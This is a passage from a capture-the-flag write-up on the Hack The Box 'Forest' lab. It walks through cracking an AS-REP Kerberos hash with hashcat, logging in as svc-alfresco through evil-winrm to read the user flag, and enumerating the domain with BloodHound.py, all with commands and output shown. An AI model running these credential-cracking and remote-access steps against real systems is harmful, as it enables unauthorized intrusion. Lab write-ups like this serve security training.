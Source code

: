 ```
```

We were able to obtain Kerberos hash for `svc-alfresco`, now let's check it we will be able to break it with `hashcat`
```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ hashcat -m 18200 --quiet hashes.txt /usr/share/wordlists/rockyou.txt
$krb5asrep$23$svc-alfresco@HTB.LOCAL:32b1386a1cf17a07856f22927d032ea4$a621d53d94d83f2b8f1832e0225f4f4bd72796ad8596af0019efa3975dfb487a2804a346a91b6d8b28cae1b61ba417b135cda6114f90fa2534c508dececa82af7253e31d9e40dc80f6f6c9a54ee734051577b42e623ece57f0eef88d558a1f09c5256e4ef7d7deaba998b5eff701171c2d5918ac58427170f4a1070fdf010c70dc3cdcd0a9dbb281306741b1bbf8a80d238845b9e09e72831022ac0f3965050310b89f94f9854d13dcb593f981e139237a71d7548796d7cc7c9e0ebf026836801b388162bf864d3a6e5e375dab0b78c982e4bb9a9d46f29a88e61a57bdfe27186b9f4ea9205c:s3rvice
```

We have our first credentials, `svc-alfresco:s3rvice`. Let's see if this will be enough to gain foothold and user flag.
```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ evil-winrm -i htb.local -u "svc-alfresco" -p "s3rvice"
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cat C:\Users\svc-alfresco\Desktop\user.txt
********************************
```

Foothold gained, time for escalation of privileges.

# Privileges escalation
As `svc-alfresco` does not have any intersting privileges that we could use immediately escalate to `Administrator`, we will analyze possible vecotrs with Bloodhound. Starting with gathering data using Python collector.
```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ ~/Tools/BloodHound.py/bloodhound.py -d htb.local -c DCOnly -u svc-alfresco -p s3rvice -ns $TARGET -k
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 2 computers
INFO: Found 0 trusts
INFO: Done in 00M 09S
```
